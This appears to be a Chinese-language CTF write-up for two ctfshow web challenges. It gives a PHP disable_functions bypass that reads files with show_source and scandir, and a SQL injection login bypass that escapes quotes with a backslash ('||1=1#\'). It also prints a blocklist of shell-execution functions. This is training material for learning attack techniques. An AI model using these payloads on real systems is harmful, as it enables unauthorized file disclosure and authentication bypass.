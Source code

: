 ##  web680

**考点：绕过:disabled_functions**

![image-20220628170045629](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220628170045629.png)



看到phpinfo()

需要绕过disable_functions

```
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstoped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,fopen,file_get_contents,fread,file,readfile,opendir,readdir,closedir,rewinddir	
```

直接先找有没有什么漏掉的函数

这个题payload有点多

```
code=show_source(current(array_reverse(scandir(dirname(__FILE__)))));
code=show_source("./secret_you_never_know");
```

##  web681

**考点：就是SQL注入灵活对单引号的闭合，实现字符的逃逸**

输入color，抓包

![image-20220629142642349](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220629142642349.png)



发现是个sql语句。

传入`123'`准备闭合单引号，但是被吞了

因为`where`,有两个条件，所以可以利用`\`反斜杠转义来闭合字符

传入`123\`,出现

```sql
select count(*) from ctfshow_users where username = '123\' or nickname = '123\'
```

相当于

```sql
select count(*) from ctfshow_users where username = 'xxx'123\'
```

后面的`123\`就逃逸出来了

直接上万能密码

`name=||1=1#\`,拿到flag
